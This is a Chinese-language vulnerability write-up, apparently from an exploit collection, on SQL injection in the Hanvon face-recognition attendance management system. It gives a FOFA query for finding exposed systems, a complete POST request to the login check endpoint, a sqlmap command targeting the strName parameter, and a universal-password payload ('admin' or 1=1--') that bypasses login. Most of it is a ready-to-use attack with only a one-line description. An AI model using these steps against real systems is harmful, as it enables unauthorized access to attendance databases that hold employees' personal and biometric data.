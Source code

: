 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

> 汉王人脸考勤管理系统

## FOFA

> title=""汉王人脸考勤管理系统""

## 漏洞复现

登录界面如下

![1621601228390](resource/汉王人脸考勤管理系统/1621601228390.jpg)

请求包如下

```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

其中strName参数存在注入

```shell
sqlmap -r postwang.txt -p strName  --current-user
```

![hw-2](resource/汉王人脸考勤管理系统/hw-2.png)

```
user: admin' or 1=1--
pass: admin
```

万能密码绕过登录

![1621601403462](resource/汉王人脸考勤管理系统/1621601403462.jpg)